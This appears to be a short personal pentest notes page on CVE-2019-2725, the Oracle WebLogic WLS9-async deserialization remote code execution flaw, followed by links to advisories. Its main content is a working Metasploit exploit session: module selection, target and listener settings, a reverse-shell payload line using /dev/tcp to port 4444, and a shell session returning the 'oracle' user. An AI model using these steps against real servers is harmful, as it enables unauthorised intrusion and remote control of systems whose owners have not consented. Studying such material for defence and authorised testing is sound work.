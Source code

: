 ```yaml
---
title : "CVE-2019-2725"
# pre : ' '
description : "Oracle WebLogic WLS9-async Remote Code Execution."
date : 2020-05-06T10:53:14+02:00
# hidden : true
# draft : true
weight : 0
# tags : ['']
---
```


## CVE-2019-2725 - Oracle WebLogic WLS9-async Remote Code Execution

### Exploit

```plain
msf5 use exploit/multi/misc/weblogic_deserialize_asyncresponseservice
msf5 exploit(multi/misc/weblogic_deserialize_asyncresponseservice) > set rhosts 10.10.10.13
msf5 exploit(multi/misc/weblogic_deserialize_asyncresponseservice) > set rport 7102
msf5 exploit(multi/misc/weblogic_deserialize_asyncresponseservice) > set ssl true
msf5 exploit(multi/misc/weblogic_deserialize_asyncresponseservice) > set lhost 10.10.10.1
msf5 exploit(multi/misc/weblogic_deserialize_asyncresponseservice) > run

[+] 0<&218-;exec 218<>/dev/tcp/10.10.10.13/4444;sh <&218 >&218 2>&218
[*] Started reverse TCP handler on 10.10.10.1:4444
[*] Generating payload...
[*] Sending payload...
[*] Command shell session 1 opened (10.10.10.1:4444 -> 10.10.10.13:21207) at 2020-05-06 09:46:12 +0200

whoami
oracle
```

## URL List

* [Nvd.nist.gov](https://nvd.nist.gov/vuln/detail/CVE-2019-2725)
* [Oracle.com](https://www.oracle.com/security-alerts/alert-cve-2019-2725.html)
* [Tenable.com](https://www.tenable.com/cve/CVE-2019-2725)
